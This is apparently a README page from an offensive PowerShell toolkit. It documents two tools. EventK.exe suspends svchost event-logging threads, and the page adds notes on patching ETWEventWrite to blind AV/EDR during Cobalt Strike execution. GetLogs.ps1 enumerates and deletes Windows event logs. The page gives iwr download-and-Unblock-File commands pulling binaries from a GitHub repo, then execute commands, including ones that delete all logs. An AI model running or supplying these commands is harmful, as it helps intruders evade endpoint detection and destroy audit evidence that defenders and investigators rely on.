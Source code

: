 ## EventK.exe

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|EventK|Suspend thread in svchost.exe related to event logging (@SolomonSklash)|Administrator|[Screenshot](https://naoexiste)|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/eventK.exe" -OutFile "eventK.exe"|Unblock-File
```

<br />

**Execute:**
```powershell
.\eventK.exe
```

<br />

**Final Notes:**
```powershell
[ETW Bypass]
Next up is coverage of Event Tracing for Windows (ETW), how it can rat you out to AV/EDR,
and how to blind it in your local process. ETW is especially relevant when executing .NET
assemblies, such as in Cobalt Strike’s execute-assembly, as it can inform defenders of the
exact assembly name and methods executed. The solution in this case is simple: Patch the
ETWEventWrite function to return early with 0 in the RAX register. Anytime an ETW event
is sent by the process, it will always succeed, without actually sending the message.
```

Article: https://www.solomonsklash.io/windows-evasion-course-review.html

<br />

## GetLogs.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|GetLogs|Enumerate \ Read \ Delete eventvwr logfiles (ETW)|User Land|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/GetLogs-enum.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/GetLogs-yara.png)|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/GetLogs.ps1" -OutFile "GetLogs.ps1"
```

<br />

**Execute:**
```powershell
#Lists ALL eventvwr categorie entrys
.\GetLogs.ps1 -GetLogs 'Enum'

#List newest 3 (default) Powershell\Application\System entrys
.\GetLogs.ps1 -GetLogs 'Verbose'

#List newest 8 Powershell\Application\System entrys
.\GetLogs.ps1 -GetLogs 'Verbose' -NewEst '8'

#List newest 28 logs using cmdlet default Id's and categories!
.\GetLogs.ps1 -GetLogs 'Yara' -NewEst '28'
   
#List newest 13 logfiles with Id: 59 using cmdlet default categories!
.\GetLogs.ps1 -GetLogs 'Yara' -NewEst '13' -Id '59'
   
#List newest 10 logfiles of 'system' categorie with id: 1
.\GetLogs.ps1 -GetLogs 'Yara' -verb "system" -Id '1' -NewEst '10'

#List newest 3 (default) logfiles of 'NetworkProfile/Operational' categorie with Id: 10001
.\GetLogs.ps1 -GetLogs 'Yara' -Verb "Microsoft-Windows-NetworkProfile/Operational" -id '10001'

#Delete ALL eventvwr (categories) logs from snapIn!
.\GetLogs.ps1 -GetLogs 'DeleteAll'

#Delete ONLY logfiles from "Microsoft-Windows-Powershell/Operational" eventvwr categorie!
.\GetLogs.ps1 -GetLogs 'DeleteAll' -Verb "Microsoft-Windows-Powershell/Operational"
```
